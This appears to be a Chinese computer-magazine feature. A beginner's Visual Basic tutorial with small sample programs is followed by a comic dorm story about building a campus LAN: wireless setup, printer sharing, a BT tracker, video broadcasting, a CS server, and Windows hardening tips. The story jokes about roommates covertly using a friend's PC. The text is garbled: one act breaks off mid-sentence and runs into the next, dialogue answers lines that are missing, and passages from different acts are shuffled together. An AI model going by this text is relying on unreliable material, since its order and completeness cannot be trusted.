我们选好一个对象后，用鼠标在该对象上双击，便会出现程序代码编辑的对话框，左上角写 “Command1” 表示你正在对象“Command1”(命令按钮1)里编写程序代码，你可以选择你要编写程序代码的对象，右上角 “Click” 处为事件，你可以选择要处理的事件。底下文字方块两行字的中间便是让你编写程序代码的地方。

我们先来玩个最简单的程序，从工具箱中双击前边用过的 “Label” 标签，它的名字为 “Label1”，在它的 Caption 中随便输入些字。再双击 “CommandButton” 在窗体中加入一个命令按钮，它的名字缺省为 “Command1”，通常用户单击它将执行一系列命令(见图 16)。

双击窗体上的 “CommandButton”，这时会跳出程序代码的编辑窗口，左上角的下拉选单表示要处理的对象、右上角的下拉选单则表示要处理的动作。我们就在右上角的下拉栏里选 “Click”，也就是说鼠标按下 “CommandButton” 时将发生的事件(见图 17)。





在代码窗口的：

```
Private Sub Command1_Click()
End Sub
```

两行之间加入：

```
Label1.Visible = False
```

现在我们按 F5 键运行，当鼠标点击 “CommandButton” 控件时，“Label1” 消失了。当用户单击 “Command1” 按钮时，就使程序执行 “Command1_Click” 中的代码，而这个 “Click”，就是事件。

Just do it
请你修改程序，让它在按下 CommandButton 的时候，原本隐藏的 Label控件会显现出来。

现在的 Windows 程序都有这种响应用户操作的特点，这就是所谓的“事件驱动程序”。想想看，还有没有其他事件？像鼠标移动、双击、右击、拖动、键盘按下，这些在电脑中的常用操作都是事件。不过并不是所有控件都有这些事件，如 “CommandButton” 控件，就不具有双击的事件。不同类型的控件所具有的事件是不同的。

另外，事件并不单指用户的操作，它还包括一些别的因素。如程序刚启动时，将触发启动窗体的 Load 事件。这些读者朋友通过以后的学习不断提高对事件的认识。事件这个概念很重要，我们设计的程序代码，大多都应放在相应的事件中。用户对程序的不同操作，将引发不同的事件过程。

## 三小时代码试练 成功入门 VB

到现在你已经可以把 VB 玩得很的了，运用你前面学到的东西，照着下面给你的例程试练一下，看看做完之后你能不能读懂这些程序。

### 试练代码 1：我的媒体播放器

下面我们用 VB 设计一个功能和 Windows Media Player一样的媒体播放器，媒体播放器能播放什么我们的播放器就能播放什么，而且设计这个程序，我们只用两行代码。

第一步：设计界面，和开始的真情告白程序一样，我们加入一个 “Windows Media Player” 控件。

第二步：再用相同方法，在 “部件→控件” 里面找到 “Microsoft Common Dialog Control 6.0”(见图 18)选中它，确定后工具箱中出现 “CommonDialog” 控件，双击它添加到窗体中。



这里 “Common Dialog” 的意思是通用对话框，它就是我们平时在 Windows 中各种打开文件之类的公共窗口，VB 可以随意地调用它们。

第三步：这里再教大家一招，给你的应用程序添加菜单，这项工作对 VB 来说就是填填表而已。点击工具栏中的第 3 个按钮(或按 Ctrl+E键)就会出现 “菜单编辑器”(见图 19)，这里我们只添加一个菜单选项，在 “标题” 栏中输入 “打开媒体”，在 “名称” 处输入 “MnuOpen”，确定，这样界面设计就完成了(见图 20)。



第四步：添加代码，点击制作出来的菜单项 “打开媒体”，在弹出的代码窗口里加入如下代码：

```
Private Sub MnuOpen_Click()
CommonDialog1.ShowOpen '显示打开文件对话窗口，选中多媒体文件，并把多媒体文件名送给CommonDialog1
WindowsMediaPlayer1.URL=CommonDialog1.FileName '让媒体播放器控件打开这个文件
End Sub
```



提示：单引号后是注释文字，起到解释说明代码的作用，程序运行的时候会被忽略。

第五步：双击 Form 界面在弹出的 Form 代码中加入 Load 事件

```
Private Sub Form_Load()
WindowsMediaPlayer1.Move 0, 0, Me.ScaleWidth, Me.ScaleHeight '这句代码使程序的窗口不管怎么变化,Windows Media Player控件的视窗大小总是跟它一样大
End Sub
```

好了，我们的媒体播放器已经完成了，不信你运行看看，只要是多媒体文件都可以正常播放(见图 21)。



### 试练代码 2：猜拳游戏

我们再来个代码比较多的程序，请你根据上面学到的关于 VB 的知识，独立完成下面的小程序，放心，简单到比逛街还轻松。

第一步：加入三个命令按钮到窗体上。

第二步：将 Command1、Command2、Command3 的 Caption 分别设为 “剪刀”、“石头”、“布”。

第三步：双击 Command1 按钮，在出现的代码窗口中，为它的 Click 事件加上如下代码：

```
Private Sub Command1_Click()
Randomize Timer
Dim BytCom As Byte
BytCom = Int(Rnd * 3) '随便抽三个变量0~2, 0代表计算机出剪刀，以此类推
Select Case BytCom
Case 0
MsgBox "你出剪刀，计算机出剪刀，平手", vbOkOnly
Case 1
MsgBox "你出剪刀，计算机出石头，你输", vbOkOnly
Case 2
MsgBox "你出剪刀，计算机出布，你赢", vbOkOnly
End Select
End Sub
```

第四步：仿照第三步分别为 Command2、Command3 按扭的 Click 事件添加如下代码：

```
Private Sub Command2_Click()
Randomize Timer
Dim BytCom As Byte
BytCom = Int(Rnd * 3)
Select Case BytCom
Case 0
MsgBox "你出石头，计算机出剪刀，你赢", vbOkOnly
Case 1
MsgBox "你出石头，计算机出石头，平手", vbOkOnly
Case 2
MsgBox "你出石头，计算机出布，你输", vbOkOnly
End Select
End Sub
```

```
Private Sub Command3_Click()
Randomize Timer
Dim BytCom As Byte
BytCom = Int(Rnd * 3)
Select Case BytCom
Case 0
MsgBox "你出布，计算机出剪刀，你输", vbOkOnly
Case 1
MsgBox "你出布，计算机出石头，你赢", vbOkOnly
Case 2
MsgBox "你出布，计算机出布，平手", vbOkOnly
End Select
End Sub
```

完成，运行一下看看效果如何？这已经是个像模像样的游戏程序了，看吧(见图22)，在你还完全没有理解任何代码的情况下，你已经可以做到编程了。先不要得意，VB最难学的还是代码，下面我们再看一些代码，而且是VB中相当厉害的代码，它叫API。不过不要害怕，仅仅是让你认识一下它们。

![图22]

### 小提示

如果运行有问题请再看看前面的文章，找找看问题出现在哪里，如果还不能解决，来找CFan帮忙吧，发邮件至focus@cfan.com.com或直接到论坛发帖求助。

### 试练代码3: 弹入弹出你的光驱

Windows系统很奇怪，你可以在光驱的盘符上按鼠标右键，在弹出的菜单中选择“弹出”来弹出光驱，却无法用相同的办法弹入。看看VB怎么帮你解决的，只需要几行代码！

```vb
Option Explicit
Private Declare Function CDdoor Lib "winmm.dll" Alias "mciSendStringA" _
( _
    ByVal lpstrCommand As String, _
    ByVal lpstrReturnString As String, _
    ByVal uReturnLength As Long, _
    ByVal hwndCallback As Long _
) As Long
```

上面的这段代码是VB的API调用，它就是，它在VB编程中起到调用Windows系统功能的作用。这个内容你不需要懂，只知道CDdoor函数可以控制光驱门即可。如果想深入了解的读者，可以查询相关书籍。

```vb
Private Sub Command1_Click()
    Call CDdoor("set CDAudio door open", 0, 0, 0) '这句的意思是“光驱，开门吧”
End Sub

Private Sub Command2_Click()
    Call CDdoor("set CDAudio door closed", 0, 0, 0) '这句的意思是“光驱，关门吧”
End Sub
```

### 试练上层次: 定时闹钟帮你报时

编制闹钟程序是学习VB的一个很好范例，在VB中有Timer(定时器)控件，利用它就可以很容易实现闹钟的功能。定时器提供一个定时装置，只要一到所设定的时间后，Timer对象便会自动地执行Timer对象内的Timer属性，Timer就是一个具有时间性的循环。我们来看看它的Interval属性，Interval是Timer对象内唯一有意义的属性，它用来指定Timer对象每次处理程序代码的间隔时间，范围由0至65535，以千分之一秒为单位，若Interval设为0则Timer不作动作(见图23)。

![图23]

这就是一个简易时钟的范例：
将Timer1的Interval属性设定为500
```vb
Private Sub Timer1_Timer()
Label1.Caption = Time$
End Sub
```

下面我们来完整地制作一个具有报时功能的时钟，到了预设的时间就会播放你指定的音乐。首先进行界面设计：

第一步：在Form1上建立两个命令按钮，分别为command1(设定时间的按钮)和command2(即刻报时，我们可以测试效果)，这个按钮可有可无。

第二步：加入一个文本标签Label1，并把Name改为lbltime，用来显示现在的时间。

第三步：加入“Microsoft Multimedia Control”控件，如果你的工具箱中没有它，可以按Ctrl+T，从控件中找到并选中它后再添加(见图24)，添加后将其Visual属性设定为“False”。

![图24]

第四步：加入一个timer定时器，并将它的Interval设定为500。

第五步：将Form1的属性做如下调整：Startuppopsition设为“2-屏幕中心”，maxbutton设为“False”，这样闹钟程序会固定大小的出现在屏幕中心。接着将Label1的属性alignment也设置为“2-center”。这样界面就设计完成(见图25)。

![图25]

接着我们把代码加入到代码窗口中：

```vb
Option Explicit
Dim AlarmTime

Private Sub Command1_Click()
    AlarmTime = InputBox("请输入你想设定的时间(例如19:12:00)", "小闹钟")
    If AlarmTime = "" Then Exit Sub
    If Not IsDate(AlarmTime) Then
        MsgBox "你所输入的不是时间格式，请重试!", "Wrong"
    Else
        AlarmTime = CDate(AlarmTime)
    End If
    '判断输入的是否可转换成time格式
    'isdate函数是判断输入的是否可转换成date格式
End Sub

Private Sub Command2_Click()
    Call AlarmNow '调用闹响子程序
End Sub

Private Sub Form_Load()
    AlarmTime = "" '初始化时command2为不可用的
End Sub

Private Sub Form_Resize()
    If WindowState = 1 Then
        mintime
    Else
        Caption = "小闹钟"
    End If
    '如果窗口被最小化，则调用mintime程序
End Sub

Private Sub mintime()
    Caption = Format(Time, "long Time") '使用长时间格式来显示时间
End Sub
```

```vb
Private Sub Timer1_Timer()
    If lblTime.Caption <> CStr(Time) Then
        lblTime.Caption = Time
    End If
    '显示时间每秒钟的变化
    If Time >= AlarmTime Then
        Call AlarmNow
    End If
    '判断如果现在的时间超过了设定的时间，则调用闹响子程序
    If WindowState = 1 Then
        If Minute(CDate(Caption)) <> Minute(Time) Then
            mintime
        End If
    End If
    '最小化时显示时间每分钟的变化
End Sub
```

```vb
Sub AlarmNow()
    MMControl1.Command = "close" '播放前先关闭播放设备
    MMControl1.FileName = "c:\chimes.wav" '选择要打开的文件，最好选择时间比较短的音乐文件，将声音文件的目录位置替换即可
    MMControl1.Command = "Open" '打开所选择的文件
    MMControl1.Command = "Play" '播放所选择的文件
End Sub
```

生成EXE之后就可以用上自己设计的闹钟程序了(见图26)，按Command1设定闹铃时间后，最小化窗口，定时器就开始运转了，到了你设定的时间闹钟就响了。按Command2可以试试闹响的效果。这是个多么简陋的闹钟呀，不过也可以满足我们基本的需求了。当你有了更多的VB知识你可以尝试完善这个闹钟，赋予它更多的功能。

![图26]

本文涉及到的所有源代码和最终生成的可执行文件在http://www.newhua.com/cfan/200505/vb.rar处下载得到。

小编有话说：看过了本期特别话题，并且掌握了所有内容的玩家，可以说已经入得了VB初学之门，但是不要太得意，VB毕竟是门庞大的编程语言，仅仅搭搭积木，玩玩控件是不能称为真正的编程高手的，还需要不断地做实例练习、学习软件开发理论和跟编程爱好者交流。只要你持之以恒，几个月的时间内一定能在编程方面有所成就，到时好工作、高薪水会乖乖跑到你的面前。

大家学习VB可以到以下网站寻找资源和同好：

- http://www.csdn.net 中国软件开发网
- http://www.vbgood.com VB爱好者乐园
- http://msdn.microsoft.com/library/chs/ 微软MSDN开发页
- http://www.vb-code.net/ VB中国
- http://www.vbeden.com/ VB编程乐园

## 局域网的幸福生活

刘晓辉 拱旭东 冯英杰

剧情简介：本剧以XX大学XX男生宿舍为背景，故事发生在新学年伊始，刚过完假期的四个大二男生回到了阔别已久的校园，刚回学校的这四个男生本来还有些郁闷，但一回寝室，却得知了一个天大的好消息，那就是—学校开通校园网了。消息一传出，举校欢庆，大家都奔走相告，这四个男生也不例外，面对浩瀚的网络世界，他们兴奋不已，故事也就随之而发生了……

### 出场人物：

老农——生于大城市，但相貌酷似农民，故江湖人送一雅号“老农”，此君乃电脑白痴，对上网更是一窍不通。第一次在网吧上网因举止笨拙被两位MM当场嘲笑，从此不再涉足网吧半步，每日只顾埋头苦心研读。

汉堡包——一时胖时瘦，体重波动极大，且胖瘦毫无规律可循，胖时体宽面善，瘦时形如槁木，故人称“汉堡包”，他以数码硬件技术纵横江湖，自谓“世上硬的都不出我所知”！

馒头——相貌平平，丢入人海马上不知所踪，脾气极好，但性情平淡，这家伙软件网络双绝，电脑技术无所不知，但常常大隐隐于市，行踪极其诡异。

牙签——典型的小白脸，常嘴叼牙签扮“小马哥”状，CS枪法一流，网游款款配备顶级装备。不过因其瘦小没得“小马”称号却被叫做“牙签”。

### 第一幕：玩无线网络快乐无限

这天，四人刚回到寝室，正各自收拾着行礼，老农发现墙上多了一个插口，便招呼其他三人过来看。

汉堡包：说你是农民你还不信，这是校园网的接入端口。太好了，有了它以后我们上网就不愁了，幸福生活终于来到了。

馒头：能不能上网还不一定呢，不过有了这么个大局域网也是不错的事情。牙签，你也不用再愁找不到对手了，学校里高手极多，不用你再到网吧里跟别人挑衅了。

牙签：最爽还是你吧，你这个下载狂还不知道要占用我们多少的带宽呢。

老农：反正我没有电脑，不关心这个，可是这里只有一个口，你们三个人怎么用呀，我看这个插口也没有什么用处。

牙签：笨啊你，我们可以搭局域网啊。

汉堡包：强烈建议整无线的，免得到处都是线乱七八糟的。

馒头：无线配置起来非常复杂，价格也不菲呀！

汉堡包：呵呵，我这里就有无线AP，今天就让你知道我的本事，一套基本的组网硬件包括一个无线网桥(AP)和一块无线网卡，我买的是华硕无线AP WL330，你们各自装上支持Intel 802.11b的无线网卡就可以组成无限局域网，价格也不算太贵。无线AP的硬件安装再简单不过了，接上就好，不过软件配置就复杂异常了。看我的配置步骤：

+   1. 第一步：笔记本电脑要先开启无线网络开关，台式机无线网卡安装后一般都会处于打开状态，将局域网线插入AP的LAN端口，这时如果网络通畅，AP的LAN指示灯会显示为工作正常。请注意，AP就相当于普通有线网络的交换机(SWITCH)，而无线网卡本来面目就是网卡一块。

![图片]
![图片]

+   2. 第二步：设置AP的网络名称(SSID)和频道(CHANNEL)。SSID相当于一个“工作组”，每一个AP连起来的无线网络都只能使用不同的SSID，大家可以更改为其他名字，我这里设成了“AP01”。“CHANNEL”是频道选择，总共有13个频道，我们分别把两个AP设为“7”“9”。

+   3. 第三步：设置AP的IP地址分配方案。AP设置界面中的IP地址、子网掩码和网关，我们可以不用理会。因为我的这款AP是没有路由功能的，相当于一部交换机。

+   4. 第四步：指定能够访问该AP的无线网卡。在上面的管理界面里面进入Access Control，取消“Accept association requests from any station”的勾选，在列表中输入授权访问的无线网卡的MAC地址，然后按Apply键重启AP。MAC地址的获得，可以“双击”无线连接，选择“支持”，单击“详细”，其中“物理地址”就是网卡的MAC地址(见图2)。

![图2]

其实Windows XP很聪明，在不进行“第三步”设置的情况下，Windows XP也会根据用户情况和信号强度，自动推荐临近网卡选择无线网络连接。

使用中，你会发现无线网卡检测到多个“无线网络”的情况，你只需要选择自己授权的无线连接即可。剩下的工作就让Windows XP自己做吧。

馒头：没想到你小子不光硬件很猛，软件技术也不赖呀！

汉堡包：呵呵，献丑了。倒是老农，我们电脑都组建了局域网，你一个人好脱离群众呀，难怪人家叫你老农。

老农不语！

### 第二幕：打印共享皆大欢喜

老农在众人的挤兑之下，终于去电脑城买了台促销品牌机，3500元竟然还送HP打印机，把老农乐坏了。

老农：快看看我买的电脑。

汉堡包：不用看了，瞄一眼我就知道全是垃圾配置，就是这个打印机还不赖，送我吧。

牙签：别欺负老实人了，老农，快把CS装上，让我好好虐你一下。

馒头：老农你的机子太烂，装了打印机就更慢了，还是让我来受苦吧。

老农：哦，那打印机就一个，要不你们轮流用？

汉堡包：嗨，共享不就得了，馒头不用你出马，我来！

汉堡包说法：说到打印机共享再简单不过了，老农把打印机装好，设成共享就行，具体操作跟我做：

+   1. 第一步：在“控制面板”中双击“打印机和传真”图标，显示“打印机和传真”窗口，列出已经安装就绪的所有打印机和传真机。

+   2. 第二步：右击欲设置为共享打印机的打印机图标，并在显示的快捷菜单中选择“共享”，显示如图3所示“打印机属性”对话框，选择“共享这台打印机”单选项，将该打印机设置共享打印机。然后，在“共享名”文本框中为该打印机命名，以区别于其他共享打印机。

![图3]

+   3. 第三步：若欲为网络中运行非Windows XP的用户共享该打印机，需单击“其他驱动程序”按钮，显示“其他驱动程序”对话框，为其他操作系统安装打印机驱动程序(见图4)。

老农你这边就搞定了，我们用“搜索”找到你的打印机，双击，我们的系统就会自动安装你的打印机的驱动程序，就可以当自己的打印机用了。不光如此，比如你的机子上有个什么扫描仪、刻录机、摄像头都可以让我们共享一下。

老农：这下你们的论文讲义都可以在我这打印，爽了吧！

众人皆言爽！

今天我的晚饭也由你们管！话音未落，众人鸟兽散……

### 第三幕：有BT不怕你跑

校园网联通之后，校园里冒出了不少小网站、BBS、FTP服务器，好东西倒真是不少，寝室四人也不亦乐乎，不过经常是看着、下着东西，对方网站突然就不能访问了，估计是机主关机跑哪儿玩去或者睡觉了。

牙签：哇噻，又跑了，我这网游客户端才下了一半，这人真是讨厌，搞个服务器还关来关去的太不负责任了。

馒头：我有个主意，我们搞个BT服务器，以后服务器掉了还可以从别人的电脑里下，这样不就爽了。

汉堡包：还等什么，我这堡音箱的软件也才下了一滴滴！

馒头：别急，这个BT服务器再简单不过了。

馒头论道：
我们到http://www.onlinedown.net/soft/35633.htm下载个MyBT服务器软件即可。它用C++语言编写内核，是我们非常容易上手的中文化界面，内置Web服务器，用户不需要配置虚拟机，即使你没有架设服务器经验，也可以在几分钟之内快速架设一台属于自己的BT服务器。

第一步：进入“目录设置”，设置上传种子的路径。MyBT缺省使用“C:/mybt/upload”作为BT发布主目录和上传种子文件目录，不过考虑到系统的安全性，我们还是更改这个路径。服务器端口就用6969，最后点击“保存修改”按钮使之生效(见图5)。

![图5]

第二步：进入“系统设置”，在这里，我们可以为注册用户和普通游客设置不同的权限，例如注册、浏览、下载、留言、上传、编辑、管理等操作权限，只需要点击相应的复选框即可。还可以设置最大并发连接数、最大链表文件数、连接超时、下载超时、允许Track共享连接数等，现在不用管，使用缺省设置值即可(见图6)。

第三步：其他的选项影响不大，大可不动，接下来我们在运行界面上点击“一键安装服务器”按钮(见图7)，系统会首先清除旧的数据文件，然后自动启动后台服务，初次使用时需要创建管理员账户和密码，一定要记住这些信息(见图8)。

到此BT服务器就创建完成了，简单吧。

所有设置完成后，我们可以使用以超级用户的身份启动控制台窗口，成功登录BT服务器后，会见道如图9所示的窗口，此时的URL地址为“http://localhost:6969/index.html”，接下来你需要做的就是上传*.torrent文件，创建时注意将索引服务器的地址设置为与上相同，如果你有固定IP地址的话，可以将“localhost”更改为IP地址，Torrent文件具体制作过程这里就不多说了，现在下载BT的工具都可以制作。

至于上传下载这些事情以后就交给校园网里各位同学了，我们只需要传播一下服务器的地址即可。

馒头：老农，为了你电脑水平的快速成长，我们决定把管理BT服务器的大任交给你！

老农：怎么这么看得起我？好，我一定把服务器管理好，不辜负你们的厚望！

众人皆喜！

### 第四幕：寝室影院正点开播

牙签又买了不少好片，本着好东东大家分享的原则，刚买来的碟就被哄抢一空，仅仅还回来的几张也是手印儿纵横，让他心疼不已，决定影碟概不外借。

牙签：以后我的碟概不外借！

馒头：一屋的兄弟也不借呀？

牙签：嘿嘿，就属你最糟蹋我的碟了！

馒头：这样我给你的电脑搭个电影院，你看的时候我们也可以沾沾光，以后你就给我们定期放电影好了。

牙签：还能这样？

馒头：来来，看看我怎么给你弄！不就是个视频广播服务嘛。

馒头论道：
正统的方法是安装一套Windows Media Server或者Helix Server，这样就可以搭建一个音视频的点播和广播服务系统，不过这个工程太大了，我们简单地安装Windows Media编码器基本上就可以达到这个目的了。Windows Media编码器可以在http://www.onlinedown.net/soft/3333.htm下载，目前最新版本为9.0版，文件大小为9MB左右。安装之前，应确保本机的DirectX版本在8.1以上，否则编码器的安装无法进行。按下面的步骤来做就可以搞定：

第一步：完成安装后，运行Windows Media编码器，将会弹出向导窗口。选择“自定义会话”，进入“设备选项”对话框(见图10)。

![图10]

第二步：在“源”标签将“源来自”选为“文件”，在“文件名”处浏览添加你要广播的视频(见图11)。

![图11]

第三步：在“输出”标签选择“自编码器拉传递”选项。在进行HTTP端口设置时，要确保设定值与其他访问端口不会发生冲突，可以点击“查找可用端口”按钮让系统自动分配端口(见图12)。

第四步：在“压缩”标签中设置合适的视频和音频编码方式。由于设置过高会导致接收端的画面出现停顿，因此建议大家选择系## 第五幕：足球之夜一同狂欢

听闻很多学校的寝室都配备了电视，适合意甲赛季，寝室里四人发起了牢骚，埋怨寝室既然都有闭路接口为什么不给配电视。

牙签：明晚直播意甲AC米兰对尤文图斯，哥儿几个还是到我家里去看吧！

老农：你家那么远我们才懒得跑呢，这不是有闭路接口嘛，去弄台电视吧。

老农：你小子还真有两把刷子，不要光讲理论了，准备买什么牌子的？

汉堡包：我早就想好了，去看下面这两款：天敏电视大师3和康博M150，价格公道量又足。

众人窃喜：反正我们不用花钱，管你买什么牌子的。

牙签：那广播还是用我那套东西吗？

馒头：嗯，基本上差不多，只要在第二步里面将“源”标签里的“源来自”选为“设备”，在“视频”选项里加上电视卡的设备即可，太easy，我也不多说了，你自己试试就知道了，而且还可以直播你的桌面，让全校人知道你每天都在做什么。

牙签：我吃多了，同时泡N个MM的时候要被我女朋友知道了，哪还了得……

众人愕然！

## 第六幕：内建战网外修战功

老农奔图书馆苦读去了，寝室三人都埋头在电脑之中，突听在CS中激战的牙签大喊“太卑鄙了！”。

牙签：这帮人真是没品，输了就删，还不动就退服务器，真不想带他们玩儿了。

汉堡包：你自己建个服务器自己当老大呀，这方面馒头强。

馒头：呵呵，我给你出个主意，老农的机子除了聊聊天看看网页也干不了什么，你在他的机子上搭个CS战网服务器，你只要有管理权限就可以控制了，带谁玩不带谁玩，怎么玩全都由你一手操纵，还不影响你系统的性能，如何？

牙签：好呀，趁老农不在，我们赶紧急手。

汉堡包：架一台运行稳定、流畅的CS服务器，硬件的配置尤其重要。

馒头：也用不着，带8~12个人，老农这台赛扬2个G足够了，重要的还是软件。架设CS1.5的服务器软件HLserver可以到各大CS网站下载。我来跟你们说怎么做：

先安装HLserver，一直“下一步”即可， 一切搞定之后，就需要配置了，这里最关键。 一般情况下，只需要修改HLserver的cstrike文件夹下的server.cfg、mapcycle.txt、motd.txt三个基本文件即可。server.cfg是服务器的配置文件，mapcycle.txt是地图循环的顺序，motd.txt是服务器的说明。 按照下面这个表格的讲解进行配置，相信玩CS的你没有不理解的，server.cfg这个文件直接用记事本打开就可以进行编辑了，其中0表示No，1表示Yes。 mapcycle.txt里面包含的是循环用的地图文件名，不用带后缀。例如，de_dust.bsp，只取de_dust。地图在Hlserver/cstrike/maps文件夹，将准备玩的地图挑出来，然后，将文件名按照如上所述的规则添加至mapcycle.txt中，每个地图之间用硬回车隔开就行。

汉堡包：好家伙，还不够麻烦的，我去弄块电视卡给你们解解馋吧。

老农：就你那屁大点的显示器，要是放起来意甲，不知多少人一拥而来，济济一堂，我们这小屋哪里招架得住。

馒头：好说，咱们照样可以广播出去！汉堡，快去买电视卡吧，挑个好点儿的，不要又图便宜。

汉堡包：我挑电视卡那可是大有一套，听我给你们道来！

汉堡包说法： 电视卡现在已经非常便宜了，300元左右已经可以买到很好的了。现在的电视卡分为两种，一类是和显示芯片密切相关的产品，比如NVTV和ATi TV wonder；另一类是独立芯片的电视卡，代表芯片如飞利浦SAA7130/7134芯片和Conexant BT848/878。前者通常因为集成了，效果未必最好，但这类电视卡大多带硬压缩功能（可以更好地采集视频），所以价格更贵；后者的产品可就多了，价格便宜，功能也够用，所以宿舍里面采购电视卡，推荐第二类。不过，在众多品牌的具体产品中，电视卡的个体差异还是比较大的。首先，从解码效果来看，飞利浦SAA7130/7134芯片的规格明显高于Conexant BT848/878，前者具有对提高视频画质至关重要的梳状滤波功能，而后者没有，所以强烈推荐采购飞利浦芯片的电视卡。另外，高频头也分好坏，在芯片相同的情况下，高频头的质量差异会带来非常明显的画质表现。选购时，一定要尽量选择采用飞利浦或LG等大厂品牌的高频头的电视卡。 电视卡的安装通常都很简单，与一般的即插即用硬件没有什么两样。需要注意的是，在安装时要选择正确的电视信号制式，即PAL制式。



康博M150采用Philips SAA7130HL芯片，支持遥控器开关机，价格也在300元以内



天敏电视大师3采用Philips 7130芯片，价格200元出头，性价比很好

| sv_autoaim 0 | 是否自动瞄准 |
| pausable 0 | 客户端是否可暂停游戏 |
| hostname "CFan CSServer" | 服务器名字 |
| mp_timelimit 30 | 更换地图时间 |
| mp_c4timer 45 | 炸弹倒计时间 |
| mp_falldamage 1 | 窗外落下伤害 |
| mp_flashlight 1 | 是否有战术手电 |
| mp_footsteps 1 | 是否有脚步声 |
| mp_freezetime 4 | 每局开始固定买物品时间 |
| mp_friendlygrenade_damage 1 | 手雷是否伤害友军 |
| mp_friendlyfire 1 | 是否友军伤害 |
| mp_autoteambalance 2 | 自动调整双方人数差异的最低限制 |
| mp_roundtime 4 | 每回合最大时间数 |
| rcon_password **** | 服务器密码，*部分为自己设置 |
| mp_limitteams N | 双方超过N人即自动调整，N为数字 |
| mp_tkpunish 1 | 是否惩罚伤害友军 |
| mp_mapvoteratio 0.2 | 投票比率 |
| mp_logfile 1 | 是否服务器留下记录文件 |
| mp_fadetoblack 1 | 人物死亡后屏幕是否变黑，1为改变，0为默认 |
| mp_forcechasecam 0 | 死后是否可以随意看，1只可看自己人，2只可看摄像机角度 |
| mp_buytime 90 | 可以购买物品时间，15分钟为默认 |
| mp_winlimit 17 | 当某方胜利次数达到17次更换地图 |
| allow_spectators 1 | 允许观察员角度，0为不允许，1为允许，1为默认规定时间内伤害人质超过三人自动踢出 |

motd.txt 是服务器说明文件，当玩家进入服务器后看到的第一个窗口就是它了。该文件的随意性比较大，可以是一些注意事项、规则和服务器的基本设置等，你可以把你的规矩写在里面，比如 Camp 者踢之类。

```
hlds.exe -game cstrike -port 27016 +maxplayers 22 +map cs_office
```

- -game cstrike 指定运行游戏为 CS
- -port 27016 指定游戏连接端口为 27016
- +maxplayers 22 游戏最大人数 22 人 (游戏只支持 20 人，多余两人为观众)
- +map fy_iceworld 指定第一张地图为 fy_iceworld



小凡制作的CS1.5服务器纪念版，可以到亿赛网下载

通过局域网还可以搭建许多游戏的战网服务器，如暗黑、CS 等，甚至是私服，这个人多我们就不谈了，总之有了局域网游戏的乐趣就多多了，真是与人斗其乐无穷呀！

牙签: 不错不错，以后我就是老大了，我们不要告诉老农，让他一直做我们的免费服务器好了！

老农(探头进门): 你们说什么呢？

众人咻……

## 第七幕: 六招保你局域网固若金汤

自从牙签等人私自在老农电脑上设CS服务器之后，老农机子大慢，得知后气愤异常，可是他那点安全意识根本不够用，电脑仍旧屡屡被人盗用。

老农: 你们好好就欺负我这个老实人，馒头，你一定要帮我把电脑加密好。

汉堡包: 呵呵，就是这个家伙才有办法进入你的电脑，就是他为所欲为，你还找他，不给你安木马就不错了。

牙签: 不可否认，网络和共享确实给我们带来了很大的便利，但是，与此同时，你也必须为此付出代价！

老农: 少拽文了，你们再这样对我，我就把电脑卖掉！

馒头: 好吧，兄弟一场，我就好好给你补一课。这课就叫“六招保你局域网固若金汤”，学会之后你自然就不怕别人盗用你的电脑了。

### 馒头论道:

### 第一招: 防范IPC$ 漏洞攻击

就算你不设任何共享，系统也会为了方便管理开放IPC$ 和各个磁盘的超管共享的，如果你防范不周，电脑高手总会有办法通过它潜入你的电脑，下面我们把它堵住。

- 第一步: 通过修改注册表来禁止建立空连接(IPC$)
  依次单击“开始→运行”，键入“Regedit”并回车，找到[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa]，将restrictanonymous 项设置为“1”，即可禁止空用户连接(见图15)。
- 第二步: 通过修改注册表来禁止管理共享C$、D$等磁盘。
  继续在注册表中找到[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters]，对于Windows 2000/2003 服务器，添加键值“AutoShareServer”，类型为“REG_DWORD”，值为“0”。
  对于Windows 2000/XP 客户端，添加键值“AutoShareWks”，类型为“REG_DWORD”，值为“0”。
- 第三步: 注册表修改后，重启计算机，这样就不怕了。

### 第二招: 隐藏共享文件夹

默认情况下，所有的共享文件夹都会自动显示在其他计算机的“网上邻居”中。尽管可以采用设置共享口令、文件夹加密和设置用户访问权限(仅限Windows 2000/XP)的方式保护共享文件夹的安全，但是，都不如直接共享文件夹隐藏起来来得更加直接和干脆。当然，同时运用以上所有手段，将使共享文件夹更加安全。

其实，只需简单地在共享文件夹名后面添加一个“$”符号，即可将该共享文件夹在局域网中隐藏起来。例如，未隐藏的共享名为“download”，隐藏的共享名则应为“download$”(见图16)。



当在网络上欲访问该共享文件夹时，只需在Windows 资源管理器的“地址栏”中键入“\\计算机名\共享文件夹$”或“\\计算机IP地址\共享文件夹$”即可。这样还可以方便我们兄弟Copy一下你的作业。

### 第三招: 禁用不需要的端口

所有网络攻击都必须借助于端口才能完成，因此，开放的端口数量越少，计算机也就越安全。所以，除了实现服务所必须开放的端口外，关闭一切多余的端口。

- 第一步: 在网络连接“属性”对话框中单击“高级”按钮，显示“高级TCP/IP 设置”对话框。
- 第二步: 选择“选项”选项卡，在“可选的设置”列表中选择“TCP/IP 设置”，并单击“属性”按钮，显示图17所示“TCP/IP 筛选”对话框。
- 第三步: 选中“启用TCP/IP 筛选(所有适配器)”复选框，启用端口过滤功能。然后分别设置允许通过的TCP 端口、UDP 端口或者IP 协议。



### 第四招: 删除不需要的服务

Windows 默认提供多种服务。事实上，提供的网络服务越多，漏洞也就越多，被攻击的可能性也就越大。因此，除了必须的服务外，应当禁用或删除其他所有不必要的服务，以最大限度地保障服务器的安全。

- 第一步: 打开“管理工具→服务”窗口，右侧详细资料列表中显示Windows 2000 提供的所有服务。凡是状态栏中标记为“已启动”的服务，目前正在提供服务。
- 第二步: 查找并选中欲停止的服务，右击鼠标并在显示的快捷菜单中单击“停止”，即可停止该服务。若欲禁止该服务随系统启动，可在快捷菜单中选择“属性”，显示服务“属性”对话框。
- 第三步: 在“启动类型”下拉列表中选择“禁用”或“手动”，禁止提供该服务，或者在需要时手动启用该服务。
  至于哪些需要禁用我以后慢慢跟你说，

### 第五招: 启用Windows 防火墙

